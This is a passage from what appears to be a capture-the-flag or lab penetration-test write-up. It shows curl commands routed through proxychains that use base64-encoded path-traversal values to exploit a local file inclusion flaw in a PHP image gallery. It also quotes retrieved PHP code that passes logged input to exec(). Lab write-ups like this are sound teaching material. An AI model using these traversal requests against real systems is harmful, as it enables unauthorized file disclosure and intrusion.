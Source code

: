 ![op-001.png](/assets/images/op-001.png).
This is not the output we expected to see so play with the query a bit found the correct way to get the php file back.
```
proxychains4 curl "http://192.168.166.22/image_gallery.php?t=$(date +%s)&f=$(echo -n '../../../www/html/image_gallery.php'|base64)"
```
![op-002.png](/assets/images/op-002.png)
As you can see, we successfully include local file from the save in such way that we can see the original code.

4. Code Review: Since we can see that it use `image_gallery_load.php`, we can trying to get that file also and see the original php code that should be used for LFI misconfiguration:
```
proxychains4 curl "http://192.168.166.22/image_gallery.php?t=$(date +%s)&f=$(echo -n '../../../www/html/image_gallery_load.php'|base64)"
```
The output contains several lines of php code, so what we need to do is to review the original code and look at it's structure, the block of code that looks interesting is the following:
```
if($isblocked){
    $logfile = 'intrusion_'.$timestamp;
    $fp = fopen('/var/log/soc/'.$logfile, 'w');
    fwrite($fp, "'".$imagefile."'"); <----------------------
    fclose($fp);
    exec('python /opt/ids_strong_bvb.py </var/log/soc/'.$logfile.' >/tmp/output 2>&1');
    print_troll();
```